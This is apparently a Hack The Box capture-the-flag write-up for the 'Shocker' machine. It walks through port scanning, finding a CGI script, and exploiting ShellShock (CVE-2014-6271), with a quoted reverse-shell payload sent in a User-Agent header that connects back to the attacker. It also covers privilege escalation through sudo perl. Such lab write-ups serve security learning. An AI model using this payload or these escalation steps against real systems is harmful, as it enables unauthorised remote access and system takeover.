

# EASY - SHOCKER

# 1. Enumeration

I started pinging the target to check if it was a Linux or a Windows system. The Time-To-Live (ttl) was 63, which is very close to 64, so it was a Linux system. Had it been close to 128 (or 128) it would have been a Windows system. After that I conducted an Nmap scan to detect active services on the target using `-p-` to scan all ports. Given that this is a Hack The Box machine (a controlled environment), I optimized the scan for speed using the following flags: `--min-rate 4000`, `-sS` for a SYN scan, and `-T4` for maximum speed.

The scan has revealed the following open ports:

- **HTTP** on port 80
- **SSH** on port 2222 (not the default port)

 Then, I conducted a more thorough scan to those two ports using service version detection (`-sV`) and the Nmap Scripting Engine (NSE) with default scripts (`-sC`). I also saved the output for easy reference later (`-oN nmap`).

After the scan I ran `whatweb` to check which technologies did the HTTP service use and tried visiting the webpage to look for web vulnerabilities. The web contained an image only and `wappalyzer` couldn’t discover any technologies that `whatweb` hadn’t discovered before.

As there were no technologies that could have any exploits I decided to fuzz directories with `Gobuster` to discover any hidden content that could exist. There were no files which I could access but the directory /cgi-bin/ was found, so I ran gobuster again to look for content inside it. 

While `Gobuster` was running I googled “cgi bin exploit” and I found this article https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi that mentioned the ShellShock vulnerability (**CVE-2014-6271**). This vulnerability consisted on attaching malicious code to environment variables. Before trying the exploit I checked gobuster and it had discovered a file called user.sh. I checked it but it didn’t seem to show anything useful. 

# 2. ShellShock

So I decided to look for information about the vulnerability and I found a script to exploit it ( https://github.com/MY7H404/CVE-2014-6271-Shellshock ). But, before running the script I made sure I understood what was happening and why it worked.

ShellShock is a vulnerability in Bash, which is a command-line shell used in many Unix and Linux systems. Bash allows users to define functions, and those functions can be stored in environment variables.The problem arises when there is malicious code written after the function definition. Instead of just defining the function, Bash will also execute any code that comes **after** the function definition. This should never happen because environment variables are supposed to contain definitions, not executable code.

### How it works:

This is how a normal bash function definition looks like: `x='() { echo hello; }'` . If this function were to be stored inside an environment variable it would look like this: `env x='() { echo hello; }'`. Normally, this just defines a function `x` that prints "hello" when called. However, consider this command:`env x='() { echo hello;}; echo exploit'`. Under normal circumstances, Bash should ignore the `echo exploit` part and only define the function. However, in Bash versions vulnerable to ShellShock, the `echo exploit` would also be executed immediately after defining the function. This allows anyone to execute arbitrary code in systems which are running vulnerable versions of Bash. 

What the script I downloaded does is setting a listener in our system (to capture the reverse shell) and then sending a HTTP request to the vulnerable server which contains the payload the user chooses inside the User-Agent header. For example, if the tcp option is chosen, the payload is the following: `payload = "() { ignored;};/bin/bash -i >& /dev/tcp/%s/%s 0>&1" % (args.remote, args.port)` . This defines a function and then sends an interactive shell to our system. This works because when a CGI script is executed, the web server passes information (like HTTP request headers) to the script by setting them as environment variables. If the CGI script uses a vulnerable version of Bash to process the requests, it willnot only define the function but also execute the arbitrary code that comes after it. The arbitrary code is executed with the permissions of the user under which the vulnerable Bash process is running.

### Exploitation:

Running the downloaded script against the [user.sh](http://user.sh) script we found in the webserver successfully spawns an interactive shell in our system.

# 3. Privilege Escalation

 Having access to the system I tried checking wether the user shelly had any sudo permissions. It had permissions to run perl as sudo so I looked up “perl privesc” in Google and I found a GTFOBins article which had a perl command to spawn a shell.

After that, I spawned a tty with `python3 -c 'import pty; pty.spawn("/bin/bash")'`  and captured the root flag.

